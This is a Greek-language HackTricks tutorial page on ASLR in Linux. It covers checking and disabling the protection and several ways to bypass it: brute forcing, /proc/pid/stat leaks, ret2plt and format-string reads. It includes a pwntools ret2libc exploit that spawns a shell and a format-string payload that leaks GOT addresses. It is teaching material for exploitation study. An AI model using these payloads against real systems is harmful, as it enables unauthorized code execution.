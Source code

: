 # ASLR

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks στο AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Βασικές Πληροφορίες

Η **Τυχαία Ανάθεση Διάταξης Χώρου (ASLR)** είναι μια τεχνική ασφαλείας που χρησιμοποιείται σε λειτουργικά συστήματα για τη **τυχαία ανάθεση των διευθύνσεων μνήμης** που χρησιμοποιούνται από τις διεργασίες του συστήματος και τις εφαρμογές. Με αυτόν τον τρόπο, κάνει σημαντικά πιο δύσκολο για έναν εισβολέα να προβλέψει τη θέση συγκεκριμένων διεργασιών και δεδομένων, όπως η στοίβα, το σωρό και οι βιβλιοθήκες, με αποτέλεσμα τη μείωση ορισμένων τύπων εκμετάλλευσης, ιδιαίτερα των υπερχειλίσεων buffer.

### **Έλεγχος Κατάστασης ASLR**

Για να **ελέγξετε** την κατάσταση του ASLR σε ένα σύστημα Linux, μπορείτε να διαβάσετε την τιμή από το αρχείο `/proc/sys/kernel/randomize_va_space`. Η τιμή που αποθηκεύεται σε αυτό το αρχείο καθορίζει τον τύπο ASLR που εφαρμόζεται:

* **0**: Χωρίς τυχαίοποίηση. Όλα είναι στατικά.
* **1**: Συντηρητική τυχαίοποίηση. Οι κοινόχρηστες βιβλιοθήκες, η στοίβα, το mmap(), η σελίδα VDSO τυχαιοποιούνται.
* **2**: Πλήρης τυχαίοποίηση. Εκτός από τα στοιχεία που τυχαιοποιούνται από τη συντηρητική τυχαίοποίηση, η μνήμη που διαχειρίζεται μέσω του `brk()` τυχαιοποιείται.

Μπορείτε να ελέγξετε την κατάσταση του ASLR με την ακόλουθη εντολή:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Απενεργοποίηση του ASLR**

Για να **απενεργοποιήσετε** το ASLR, ορίζετε την τιμή του `/proc/sys/kernel/randomize_va_space` σε **0**. Η απενεργοποίηση του ASLR συνήθως δεν συνιστάται εκτός από περιπτώσεις ελέγχου ή αποσφαλμάτωσης. Ακολουθεί πως μπορείτε να το απενεργοποιήσετε:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Μπορείτε επίσης να απενεργοποιήσετε το ASLR για μια εκτέλεση με:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Ενεργοποίηση του ASLR**

Για να **ενεργοποιήσετε** το ASLR, μπορείτε να γράψετε μια τιμή **2** στο αρχείο `/proc/sys/kernel/randomize_va_space`. Αυτό απαιτεί συνήθως δικαιώματα ριζού. Η ενεργοποίηση πλήρους τυχαίοποίησης μπορεί να γίνει με την ακόλουθη εντολή:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Μόνιμη Διατήρηση Μετά την Επανεκκίνηση**

Οι αλλαγές που γίνονται με τις εντολές `echo` είναι προσωρινές και θα επαναφερθούν μετά από επανεκκίνηση. Για να κάνετε την αλλαγή μόνιμη, πρέπει να επεξεργαστείτε το αρχείο `/etc/sysctl.conf` και να προσθέσετε ή να τροποποιήσετε την παρακάτω γραμμή:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Μετά την επεξεργασία του `/etc/sysctl.conf`, εφαρμόστε τις αλλαγές με:
```bash
sudo sysctl -p
```
Αυτό θα εξασφαλίσει ότι οι ρυθμίσεις του ASLR παραμένουν μετά από επανεκκίνηση.

## **Παρακάμψεις**

### Βίαιη εξαναγκαστική επίθεση 32bit

Το PaX διαιρεί τον χώρο διεύθυνσης διεργασίας σε **3 ομάδες**:

* **Κώδικας και δεδομένα** (αρχικοποιημένα και μη αρχικοποιημένα): `.text`, `.data`, και `.bss` —> **16 bits** εντροπία στη μεταβλητή `delta_exec`. Αυτή η μεταβλητή αρχικοποιείται τυχαία με κάθε διεργασία και προστίθεται στις αρχικές διευθύνσεις.
* **Μνήμη** που εκχωρείται από την `mmap()` και **κοινές βιβλιοθήκες** —> **16 bits**, με την ονομασία `delta_mmap`.
* **Η στοίβα** —> **24 bits**, αναφέρεται ως `delta_stack`. Ωστόσο, χρησιμοποιεί πραγματικά **11 bits** (από τον 10ο έως τον 20ό byte συμπεριλαμβανομένου), ευθυγραμμισμένα σε **16 bytes** —> Αυτό οδηγεί σε **524,288 πιθανές πραγματικές διευθύνσεις στοίβας**.

Τα προηγούμενα δεδομένα αφορούν συστήματα 32-bit και η μειωμένη τελική εντροπία καθιστά δυνατή την παράκαμψη του ASLR με επαναλαμβανόμενη εκτέλεση μέχρι η εκμετάλλευση να ολοκληρωθεί με επιτυχία.

#### Ιδέες για βίαιη εξαναγκαστική επίθεση:

* Αν έχετε ένα αρκετά μεγάλο υπερχείλισμα για να φιλοξενήσετε ένα **μεγάλο NOP sled πριν το shellcode**, μπορείτε απλά να εξαναγκάσετε διευθύνσεις στη στοίβα μέχρι η ροή να **παραβιάσει κάποιο τμήμα του NOP sled**.
* Μια άλλη επιλογή γι' αυτό σε περίπτωση που το υπερχείλισμα δεν είναι τόσο μεγάλο και η εκμετάλλευση μπορεί να εκτελεστεί τοπικά είναι να **προστεθεί το NOP sled και το shellcode σε μεταβλητή περιβάλλοντος**.
* Αν η εκμετάλλευση είναι τοπική, μπορείτε να δοκιμάσετε να εξαναγκάσετε τη βασική διεύθυνση της libc (χρήσιμο για συστήματα 32bit):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Εάν επιτεθείτε σε ένα απομακρυσμένο διακομιστή, μπορείτε να δοκιμάσετε να **δοκιμάσετε με βία τη διεύθυνση της συνάρτησης `usleep` της `libc`**, περνώντας ως όρισμα τον αριθμό 10 (για παράδειγμα). Εάν σε κάποιο σημείο ο **διακομιστής καθυστερεί 10 δευτερόλεπτα περισσότερο για να ανταποκριθεί**, τότε βρήκατε τη διεύθυνση αυτής της συνάρτησης.

{% hint style="success" %}
Στα 64bit συστήματα η εντροπία είναι πολύ υψηλότερη και αυτό δεν είναι δυνατό.
{% endhint %}

### Τοπικές Πληροφορίες (`/proc/[pid]/stat`)

Το αρχείο **`/proc/[pid]/stat`** ενός διεργασίας είναι πάντα προσβάσιμο από όλους και περιέχει ενδιαφέρουσες πληροφορίες όπως:

* **startcode** & **endcode**: Διευθύνσεις πάνω και κάτω από το **TEXT** του δυαδικού
* **startstack**: Η διεύθυνση της αρχής του **stack**
* **start\_data** & **end\_data**: Διευθύνσεις πάνω και κάτω από όπου βρίσκεται το **BSS**
* **kstkesp** & **kstkeip**: Τρέχουσες διευθύνσεις **ESP** και **EIP**
* **arg\_start** & **arg\_end**: Διευθύνσεις πάνω και κάτω από όπου βρίσκονται οι **παράμετροι της γραμμής εντολών**
* **env\_start** & **env\_end**: Διευθύνσεις πάνω και κάτω από όπου βρίσκονται οι **μεταβλητές περιβάλλοντος**

Έτσι, εάν ο επιτιθέμενος βρίσκεται στον ίδιο υπολογιστή με το δυαδικό που εκμεταλλεύεται και αυτό το δυαδικό δεν περιμένει την υπερχείλιση από ωμές παραμέτρους, αλλά από μια διαφορετική **είσοδο που μπορεί να δημιουργηθεί μετά την ανάγνωση αυτού του αρχείου**. Είναι δυνατό για έναν επιτιθέμενο να **πάρει μερικές διευθύνσεις από αυτό το αρχείο και να κατασκευάσει μετατοπίσεις από αυτές για την εκμετάλλευση**.

{% hint style="success" %}
Για περισσότερες πληροφορίες σχετικά με αυτό το αρχείο ελέγξτε το [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) αναζητώντας το `/proc/pid/stat`
{% endhint %}

### Έχοντας μια διαρροή

* **Η πρόκληση είναι να δοθεί μια διαρροή**

Εάν σας δίνεται μια διαρροή (εύκολες προκλήσεις CTF), μπορείτε να υπολογίσετε μετατοπίσεις από αυτήν (υποθέτοντας για παράδειγμα ότι γνωρίζετε την ακριβή έκδοση της `libc` που χρησιμοποιείται στο σύστημα που εκμεταλλεύεστε). Αυτό το παράδειγμα εκμετάλλευσης εξάγεται από το [**παράδειγμα από εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (ελέγξτε αυτήν τη σελίδα για περισσότερες λεπτομέρειες):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Κατάχρηση ενός buffer overflow θα ήταν δυνατό να εκμεταλλευτείτε ένα **ret2plt** για να εξαγάγετε μια διεύθυνση μιας συνάρτησης από την libc. Ελέγξτε:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Όπως και στο ret2plt, εάν έχετε ένα αυθαίρετο διάβασμα μέσω μιας ευπάθειας format strings, είναι δυνατό να εξάγετε τη διεύθυνση μιας **συνάρτησης της libc** από το GOT. Το ακόλουθο [**παράδειγμα είναι από εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Μπορείτε να βρείτε περισσότερες πληροφορίες σχετικά με την ανάγνωση αυθαίρετων δεδομένων με format strings στο:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

Προσπαθήστε να παρακάμψετε το ASLR καταχρώμενοι διευθύνσεις μέσα στο stack:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}
